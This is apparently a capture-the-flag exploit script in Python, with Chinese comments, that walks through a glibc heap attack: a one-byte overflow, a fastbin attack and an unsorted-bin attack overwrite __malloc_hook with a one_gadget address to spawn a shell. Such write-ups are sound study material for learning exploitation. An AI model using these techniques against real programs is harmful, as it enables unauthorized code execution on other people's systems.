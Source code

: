 ```python
# 我需要在malloc_hook中写one_gadget
# 思路是通过fastbin attack来申请到one_gadget
sh.recv()
sh.sendline('good name')
add(index=0, size=0x18) # size 0x20
add(index=1, size=0xc8) # size 0xd0
add(index=2, size=0x60) # size 0x70

payload = b'a'*0x68 + p64(0x61)
edit(index=1, content=payload)

# free再申请回来，由此在chunk内写下main_arena+88
delete(index=1)
add(index=1, size=0xc8)

# 存在单字节溢出，通过chunk0来修改chunk1的size
edit(index=0, content=b'a'*0x18 + p8(0x71))

# 申请几个大小为0x70的chunk，目的是通过fastbin的fd指针中的堆地址来获得含有main_arena+88地址的那个fake fastbin chunk
add(index=3, size=0x60) # size 0x70
add(index=4, size=0x60) # size 0x70
delete(index=2)
delete(index=3) # fastbin: 3->2
# fastbin: chunk3 -> chunk2
# 其中chunk3的fd指针在我本次调试为0x5555556050f0，且含有main_arena+88地址的那个fake chunk的地址为0x555555605020
# 因此只修改最后一位为0x20，使其fastbin指向最后一位
edit(index=3, content=p8(0x20))

# 修改后，fastbin为chunk3 -> fake_chunk -> main_arena + 88
# 我们知道main_arena + 88和malloc_hook是很接近的，实际上是main_arena比__malloc_hook只要大0x68
# 我们又可以通过修改fake_chunk的最后两字节来获得一个包含__malloc_hook的chunk
# 在__malloc_hook之前的0x23字节处有一个0x7f，因此可以通过这个来构造
# 那么有一个明显的问题：ASLR开启时，最低位只有3位是固定的。而我们需要覆盖4位，因此这里相当于会进行一个爆破，成功概率为1/16
# 在我调试的时候，main_arena+88为0x7ffff7dd1b78，而0x7f的包含malloc_hook的fake_chunk为0x7ffff7dd1aed，因此我会覆盖最低两字节为0x1aed
edit(index=1, content=p16(0x1aed))
add(index=5, size=0x60)
add(index=6, size=0x60)
add(index=7, size=0x60) # 这里将会申请到malloc_hook，但是其值为0

# 那么接下来，我们打unsortedbin attack，往malloc_hook里面写main_arena+88
add(index=8, size=0x100)
add(index=9, size=0x100) # 防止合并
delete(index=8) # 此时bk应该是main_arena+88，而在我调试的时候malloc_hook地址为0x7ffff7dd1b10，那么覆盖最低位为0x00（malloc_hook-0x10）即可
edit(index=8, content=p64(0) + p8(0x0))
add(index=10, size=0x100) # 发起unsortedbin attack，会往malloc_hook里面写main_arena+88

# 这里到了最后一步：写malloc_hook里面的main_arena+88的最后三字节为one_gadget。
# 我通过0x45216可以计算出libc_base + 0x45216 = 0x7ffff7a52216，而main_arena+88为0x7ffff7dd1b78，因此写最后三位即可
# 开启ASLR的情况下，0x7ffff7a52216中的那个a不一定为a，这里的成功率也只有1/16，与前面的爆破加起来，概率只有1/4096了。
# one_gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

edit(index=7, content=b'a'*0x13 + b'\xa4\xd2\xaf')

# 完事之后，我们需要触发malloc_hook，简单的方式就是触发malloc_printerr，我们进行一个double free即可
# 我这里尝试了直接malloc，结果反而是无法得到shell，原因还真不太清楚
# add(index=11, size=0x50)
delete(index=5)
delete(index=5)
# debug()
sh.interactive()
```